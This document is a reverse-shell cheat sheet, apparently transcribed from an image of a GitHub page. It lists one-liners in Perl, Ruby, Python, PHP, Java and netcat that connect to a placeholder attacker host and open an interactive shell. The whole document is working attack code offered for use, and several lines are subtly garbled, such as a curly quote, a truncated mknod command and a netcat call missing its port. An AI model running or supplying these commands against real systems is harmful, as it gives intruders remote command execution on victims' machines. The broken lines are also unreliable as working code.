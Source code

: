 ### PERL Reverse Shell

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

# for win platform
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
```

### RUBY Reverse Shell

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

# for win platform
ruby -rsocket -e 'c=TCPSocket.new("attackerip","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
ruby -rsocket -e 'f=TCPSocket.open("attackerip","443").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### PYTHON Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP Reverse Shell

```
php -r '$sock=fsockopen("attackerip",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### JAVA Reverse Shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### NETCAT Reverse Shell

```
nc -e /bin/sh attackerip 4444
nc -e /bin/sh 192.168.37.10 443

# If the -e option is disabled, try this
# mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 443
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/

# If you have the wrong version of netcat installed, try
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip >/tmp/f
```
